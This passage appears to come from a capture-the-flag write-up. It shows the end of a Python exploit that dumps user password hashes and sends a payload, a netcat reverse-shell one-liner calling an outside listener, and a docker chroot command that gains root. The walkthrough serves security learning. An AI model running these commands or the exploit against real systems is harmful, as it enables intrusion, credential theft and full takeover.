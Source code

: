 if __name__ == "__main__":
    print ("================================================================\nUsers SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN\n================================================================")
    extract_credentials()
    print ("================================================================")
    print()
    print ("=============================\nRegistering a users\n=============================")
    register()
    print()
    print("=======================================================\nSending Payload\n=======================================================")
    send_payload(payload)
    print ()
```

Now time to run the exploit.

![image](https://user-images.githubusercontent.com/69868171/117590453-83d63480-b0fd-11eb-86e1-3405883af81d.png)

We need to enter the target url .

![image](https://user-images.githubusercontent.com/69868171/117590491-a9633e00-b0fd-11eb-8d46-2b535e18d0a3.png)

we have shell but it a dumb one let start an Ncat listener to transfer the shell.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

![image](https://user-images.githubusercontent.com/69868171/117590540-ff37e600-b0fd-11eb-9e43-8c3b692948aa.png)

![image](https://user-images.githubusercontent.com/69868171/117590565-1f67a500-b0fe-11eb-928c-837871cbea97.png)

And we have shell.

![image](https://user-images.githubusercontent.com/69868171/117590586-3ad2b000-b0fe-11eb-8778-17d582891247.png)

Spawn a TTY shell and let move on to get the user.txt .

![image](https://user-images.githubusercontent.com/69868171/117590605-59d14200-b0fe-11eb-884d-28cf6e6b7758.png)

### Privilege Escalation

Ok checking seems we are on the docker group let hit gtfobins it can be used to break out from restricted environments by spawning an interactive system shell which we result to root shell.

![image](https://user-images.githubusercontent.com/69868171/117590753-dd8b2e80-b0fe-11eb-856f-8e3b72e66337.png)


![image](https://user-images.githubusercontent.com/69868171/117590763-e5e36980-b0fe-11eb-9ee2-7cc3f6172b7a.png)

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![image](https://user-images.githubusercontent.com/69868171/117590794-16c39e80-b0ff-11eb-8008-114944695822.png)

And we are root let get the root.txt .
```